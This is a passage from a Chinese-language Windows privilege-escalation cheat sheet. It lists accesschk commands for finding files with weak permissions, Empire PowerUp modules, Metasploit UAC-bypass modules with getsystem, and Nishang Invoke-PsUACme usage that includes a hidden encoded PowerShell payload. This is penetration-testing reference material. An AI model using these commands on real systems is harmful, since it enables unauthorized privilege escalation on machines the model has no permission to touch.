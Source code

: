 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>accesschk.exe -uwdqsUsersc:\<br>accesschk.exe -uwdqs"AuthenticatedUsers"c:\<br>``` |

#### [](#%E5%88%97%E5%87%BA%E6%9F%90%E4%B8%AA%E9%A9%B1%E5%8A%A8%E5%99%A8%E4%B8%8B%E6%89%80%E6%9C%89%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E6%9C%89%E7%BC%BA%E9%99%B7%E7%9A%84%E6%96%87%E4%BB%B6)列出某个驱动器下所有权限配置有缺陷的文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>accesschk.exe -uwdqsUsersc:\*.*<br>accesschk.exe -uwdqs"AuthenticatedUsers"c:\*.*<br>``` |

### [](#empire-%E5%86%85%E7%BD%AE%E6%A8%A1%E5%9D%97)Empire 内置模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>usermode privesc/powerup/xxxx<br>``` |

## [](#%E7%BB%95%E8%BF%87-uac-%E6%8F%90%E6%9D%83)绕过 UAC 提权

### [](#bypassuac-%E6%A8%A1%E5%9D%97)bypassuac 模块

前提：当前用户必须在管理员组中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>exploit/windows/local/bypassuac<br>exploit/windows/local/bypassuac_inject<br>getsystem<br>``` |

### [](#runas-%E6%A8%A1%E5%9D%97)RunAs 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>exploit/windows/local/ask<br>``` |

弹出一个 UAC 框，用户点击后会弹回一个高权限的 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>getuid 查看权限，如果是普通用户权限，执行 getsystem 提权<br>``` |

### [](#nishang-%E4%B8%AD%E7%9A%84-invoke-psuacme-%E6%A8%A1%E5%9D%97)Nishang 中的 Invoke-PsUACme 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>Invoke-PsUACme -Verbose ## 使用Sysprep方法并执行默认的Payload<br>Invoke-PsUACme -method oobe -Verbose ## 使用oobe方法方法并执行默认的Payload<br>Invoke-PsUACme -Payload "powershell -windowstyle hidden -e YourEncodedPayload"<br>## 使用-Payload参数，可以自行指定要执行的Payload<br>``` |
